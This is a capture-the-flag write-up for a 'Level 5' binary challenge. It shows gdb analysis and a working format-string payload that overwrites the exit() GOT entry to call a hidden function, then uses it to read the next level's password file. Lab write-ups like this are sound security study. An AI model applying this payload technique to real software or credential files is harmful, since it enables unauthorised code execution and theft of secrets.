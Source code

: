 # Level 5
*password : b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa*

```
$ scp -P 4242 level5@192.168.56.108:level5 .
```

## Printf exploit

objective : use printf to execute o().
way : change the return address of exit()

```
$ gdb level5
(gdb) info funct o
All functions matching regular expression "o":

Non-debugging symbols:
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x08048420  __do_global_dtors_aux
0x080484a4  o
0x080485a0  __do_global_ctors_aux
```

```
(gdb) disas n
...
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```

`o()` address : 0x080484a4\
`exit()` : 0x08049838


convert o() to decimal : 134513828 (too long)\
separate into 2 int :
- 804 => 2052
- 84a4 => 33956

```
$ python -c 'print "\x38\x98\x04\x08 %p %p %p %p"' | ./level5
```

address at parameters 4th.

```
$ python -c 'print "\x38\x98\x04\x08" + "%2048x" + "%4$hn" + "%31904x"+ "%4$hn"' > /tmp/level5
$ cat /tmp/level5 - | ./level5
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
